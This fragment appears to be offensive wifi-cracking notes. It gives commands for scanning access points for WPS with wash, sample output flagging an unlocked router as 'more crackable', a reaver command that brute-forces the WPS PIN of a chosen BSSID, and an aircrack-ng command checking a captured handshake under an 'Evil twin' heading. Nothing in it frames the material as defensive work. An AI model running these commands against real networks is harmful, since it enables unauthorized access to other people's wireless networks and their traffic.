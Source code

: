```bash
sudo wash -i wlan1mon      
```

```txt
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
XX:XX:XX:XX:XX:XX    7  -90  2.0  No   Broadcom  Ace  <- More crackable
XX:XX:XX:XX:XX:XX    5  -89  2.0  Yes  AtherosC  Bob
```
Lck=No is easier to crack.

```bash
#input channel 7 and the BSSID
reaver -i wlan1mon -c 7 -b XX:XX:XX:XX:XX:XX -vv
```


# Evil twin

## Checking password

```bash
aircrack-ng -a 2 -b ${bssid} -w "${tmpdir}${webdir}${currentpassfile}" "${et_handshake}"
```